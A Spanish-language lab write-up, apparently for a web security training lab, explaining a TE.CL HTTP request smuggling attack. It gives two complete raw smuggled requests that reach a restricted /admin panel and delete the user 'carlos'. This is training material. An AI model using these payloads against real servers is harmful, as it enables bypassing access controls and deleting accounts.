










## LAB

Ahora podemos construir nuestra request, teniendo en cuenta que el frontend hace la validación mediante el Transfer-Encoding y el backend Content-Length.



Luego de construir nuestra request, debemos configurar el numero de bits de nuestra data en cada Content-Length



En este caso para el Content-Length, el numero de bits es de 13. Para el segundo, de toda la data que se manda  es un total de 66 y este en hexadecimal es `0x42`



Y por ultimo, este es tiene un total de 4 bits



Por lo que nuestra request quedaría de la siguiente manera.

```c
POST / HTTP/1.1
Host: 0a8a00cc0419f4a6840fc21000a40006.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

42
GET /admin HTTP/1.1
Host: localhost
Content-Length: 13

x=test
0

```

Al enviar, nuestra solicitud una cuantas veces, observaremos que este no hace nada. Esto debido a que se debe de inflar un poco mas en el content-length



En nuestra solicitud maliciosa, agregamos 2 bits mas y procedemos a enviar. Luego de enviar observaremos que vemos el panel del administrador.



Ahora procedemos a eliminar al usuario Carlos



```c
                           <a href="/admin/delete?username=carlos">
```

Nuestra solicitud sería :

```c
POST / HTTP/1.1
Host: 0a8a00cc0419f4a6840fc21000a40006.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

42
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 15

x=test
0

```



Para corroborar podemos enviar una solicitud a `/admin` 



